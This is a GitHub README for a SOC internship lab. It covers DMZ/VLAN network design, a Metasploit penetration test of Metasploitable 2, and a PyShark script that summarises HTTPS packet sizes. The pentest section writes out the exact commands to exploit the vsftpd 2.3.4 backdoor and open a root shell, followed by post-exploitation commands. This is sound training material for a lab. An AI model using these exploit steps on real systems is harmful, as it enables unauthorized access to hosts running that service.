

# Task 04 – Secure Network Design, Metasploit Pentest and HTTPS Traffic Analysis

This repository contains my work for **CyArt SOC Internship – Day 04**.  
The goal of this lab was to connect three core security skills in one small project:

1. Designing a secure network topology (DMZ + VLANs)
2. Running a basic penetration test with Metasploit against Metasploitable 2
3. Analysing encrypted HTTPS traffic using Wireshark and Python

---

## Lab Overview

- **Attacker VM:** Kali Linux (Metasploit, Nmap, Wireshark, Python 3)
- **Target VM:** Metasploitable 2 (Ubuntu 8.04, intentionally vulnerable)
- **Network:** VirtualBox NAT + Host‑Only
- **Capture:** `day04_https_capture.pcapng` (not uploaded here for privacy)
- **Main script:** `traffic_analyzer.py`

The full written report is exported separately as `day04_report.pdf`.

---

## 1. Secure Network Topology

The lab assumes a small office with 10–20 devices. The design uses:

- A **DMZ** for public‑facing services (web + DNS)
- An **Internal VLAN** for employee PCs, admin PC and database/application server
- A **Guest VLAN** for Internet‑only access
- A **perimeter firewall** enforcing strict rules between zones
- A **security monitoring layer** (IDS/IPS, SIEM, VPN, backup)



> High‑level view of the DMZ, internal VLAN, guest VLAN and security monitoring components.

---

## 2. Metasploit Penetration Test

**Target:** Metasploitable 2 (FTP service `vsftpd 2.3.4` on port 21)

Steps:

1. Start PostgreSQL and Metasploit, verify DB:

   ```bash
   msfconsole
   db_status

Scan the target from msfconsole:


db_nmap -sV -O <metasploitable_ip>
Select and configure the exploit:

use exploit/unix/ftp/vsftpd_234_backdoor
set RHOST <metasploitable_ip>
set RPORT 21
set LHOST <kali_ip>
exploit
Post‑exploitation (Meterpreter + shell):

getuid
sysinfo
shell
id
whoami
uname -a
Screenshots are in metasploit_screenshots/.

3. HTTPS Traffic Analysis
Traffic generation:

Wireshark running with filter tcp.port == 443

Simple script generate_https_traffic.py sends HTTPS GET requests to a few sites

Capture saved as day04_https_capture.pcapng (kept local)

Main analysis script: traffic_analyzer.py
Features:

Reads HTTPS packets from the pcap using PyShark

Extracts src_ip, dst_ip (IPv4/IPv6) and packet length

Prints:

total packet count

min / max size

sample of the first 10 packets

Plots and saves:


HTTPS packet size distribution -> https_packet_size_distribution.png
Example output (shortened):


[*] Opening pcap: day04_https_capture.pcapng
[*] pyshark read packets (all): 1542
[*] Valid packets stored: 1542
Total HTTPS packets after parsing: 1542
Min size: 74 bytes, Max size: 5158 bytes
HTTPS packet size distribution

4. How to Run the Script
bash
git clone <this-repo-url>
cd <repo>

python3 -m venv venv
source venv/bin/activate

pip install -r requirements.txt
# or at minimum:
# pip install pyshark matplotlib

# Place your HTTPS pcap as day04_https_capture.pcapng in this folder
python3 traffic_analyzer.py
The script will print basic statistics and create https_packet_size_distribution.png.

5. Tech Stack
Kali Linux, Metasploitable 2

Metasploit Framework + Nmap

Wireshark

Python 3, PyShark, Matplotlib

6. Notes
All testing was done in an isolated virtual lab.

The code and diagrams are for learning and portfolio purposes only.

Do not use these techniques against systems you do not own or have explicit permission to test.

text

You can also add a `requirements.txt`:

```txt
pyshark
matplotlib